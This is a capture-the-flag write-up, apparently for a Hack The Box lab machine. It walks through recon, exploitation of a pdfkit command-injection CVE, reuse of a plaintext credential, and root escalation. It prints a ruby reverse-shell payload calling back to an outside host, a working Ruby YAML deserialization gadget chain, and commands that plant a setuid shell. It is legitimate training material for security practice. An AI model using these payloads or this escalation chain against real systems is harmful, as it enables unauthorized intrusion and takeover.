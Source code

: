 # Recon

All-tcp scan:
```bash
nmap -p- -oA scans/nmap-alltcp 10.10.11.189

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Detailed scan:
```bash
nmap -p 22,80 -sVC -oA scans/nmap-tcpdetail 10.10.11.189

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Endpoint and subdomains enum didn't yield anything interesting.

# Shell as ruby

After we visit the site, we see only a single input field:  
![](site.png)

We use the application like a standard user. After giving it
the site we want to "convert", it makes our browser download
the resulting pdf. We will examine it's metadata:

```bash
exiftool f9agkm4cree95bnsyb4d7oqf4se8vt41.pdf

ExifTool Version Number         : 12.57
File Name                       : f9agkm4cree95bnsyb4d7oqf4se8vt41.pdf
Directory                       : .
File Size                       : 4.6 kB
File Modification Date/Time     : 2023:08:22 06:16:45-04:00
File Access Date/Time           : 2023:08:22 06:16:49-04:00
File Inode Change Date/Time     : 2023:08:22 06:16:45-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

As we can see, it was generated by pdfkit v0.8.6.
This version is vulnerable to CVE-2022-25765 pdfkit command injection.

We will use the POC python script available on the internet in order to
exploit this vulnerability:

```bash
python pdfkit0872-exec.py -s 10.10.14.23 9001 -w http://precious.htb -p url

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.23","9001"))'`
LOCALIP: 10.10.14.23:9001
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 9001".
WEBSITE: http://precious.htb
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action
```

In started listener we should receive reverse connection and be able
to run commands as ruby.

# Shell as henry

Elevating privieges to henry was pretty simple.
When in ruby's home directory, we noticed nonstandard directory (.bundle).
Inside it, there was a file with henry's credentials:

```
henry:Q3c1AqGHtoI0aXAYFH
```

# Shell as root

First, we check what commands can our current user run as root:
```bash
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Viewing the script in question:
```bash
cat /opt/uo pdate_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

...SNIP...
```

We can see, that "dependencies.yml" is loaded with relative path,
which means that it's location is dependent entirely on the person
who runs the script. But, with this alone, we cannot do much.
We check the ruby version to see if it's a vulnerable one:

```bash
ruby --version
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

This version is vulnerable exaclty to loading yaml files.
From [This Article](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) we can learn how to exploit it.
In our case, we took the POC code posted in the article and changed it
to our liking:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/jjs;chmod +x /tmp/jjs;chmod +s /tmp/jjs;
         method_id: :resolve
```

We upload it to henry's home directory, and in this same directory, we
execute the sudo command:

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Then, we run:

```bash
/tmp/jjs -p
```

With our new root shell, we can read the flag:

```
81c**************************dd8
```
